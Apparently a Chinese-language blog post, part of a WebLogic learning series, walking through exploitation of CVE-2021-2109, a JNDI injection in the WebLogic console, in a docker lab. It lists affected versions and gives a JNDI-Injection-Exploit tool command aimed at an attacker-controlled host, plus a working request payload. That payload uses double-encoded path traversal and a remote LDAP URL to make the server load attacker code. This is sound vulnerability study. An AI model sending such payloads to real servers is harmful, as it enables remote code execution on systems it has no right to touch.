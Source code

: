 # Weblogic学习(2)


&lt;!--more--&gt;

## 前言

相对于前面的反序列化洞，以下几个洞比较简单，就不多加分析了，主要看下怎么打

## CVE-2021-2109 WebLogic JNDI 注入

### 环境搭建

参考T3反序列化的环境，需要多加一个 `\server\lib\consoleapp\webapp\WEB-INF\lib\console.jar` 到依赖中

```
docker run -d -p 7001:7001 -p 8453:8453 -p 5556:5556 --name weblogic1036jdk7u21 weblogic1036jdk7u21
```

### 漏洞分析

#### 利用前提

Oracle WebLogic Server 10.3.6.0.0、12.1.3.0.0、12.2.1.3.0、12.2.1.4.0、14.1.1.0.0

这里要进入到 /console/consolejndi.portal 路由里才能打

#### 漏洞分析

原理就是WebLogic 的 `/console/consolejndi.portal` 接口可以调用存在 JNDI 注入漏洞的 `com.bea.console.handles.JndiBindingHandle` 类，从而造成 RCE，所以要在进后台的前提下才能打

这里用到的工具为：https://github.com/welk1n/JNDI-Injection-Exploit

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C &#34;touch /tmp/jndi_test&#34; -A 192.168.2.1
```

![image-20250506171207587](https://6s6photo.oss-cn-chengdu.aliyuncs.com/20250625175508706.png)

payload为

```
/console/css/%252e%252e%252fconsolejndi.portal?_pageLabel=JNDIBindingPageGeneral&amp;_nfpb=true&amp;JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.2;1:1389/mezyww;AdminServer%22)
```

![image-20250506171326607](https://6s6photo.oss-cn-chengdu.aliyuncs.com/20250625175508709.png)

这里就是 `;` 而不是 `.`

看到 `\server\lib\consoleapp\webapp` 下的 `consolejndi.portal` ，就是我们刚才 payload 中访问的路由

